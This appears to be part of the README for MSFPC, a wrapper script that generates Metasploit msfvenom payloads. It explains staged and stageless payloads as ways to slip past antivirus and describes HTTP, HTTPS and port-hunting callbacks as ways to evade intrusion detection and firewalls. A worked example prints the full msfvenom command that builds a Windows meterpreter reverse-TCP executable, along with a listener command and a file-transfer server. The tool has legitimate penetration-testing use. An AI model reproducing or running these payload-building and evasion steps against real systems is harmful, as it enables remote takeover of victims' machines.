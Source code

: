 ```
 <STAGELESS> are seen as 'stealthier' when bypassing Anti-Virus protections. <STAGED> may work 'better' with IDS/IPS.
 More information: https://community.rapid7.com/community/metasploit/blog/2015/03/25/stageless-meterpreter-payloads
                   https://www.offensive-security.com/metasploit-unleashed/payload-types/
                   https://www.offensive-security.com/metasploit-unleashed/payloads/

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.
 By altering the traffic, such as <HTTP> and even more <HTTPS>, it will slow down the communication & increase the payload size.
 More information: https://community.rapid7.com/community/metasploit/blog/2011/06/29/meterpreter-httphttps-communication

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGLESS> & <TCP + HTTP + HTTPS + FIND_PORT>
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```


## Example \#1 (Windows, Fully Automated Using Manual IP)

```bash
$ bash msfpc.sh windows 192.168.1.10
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i]   IP: 192.168.1.10
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=192.168.1.10 LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
$
```

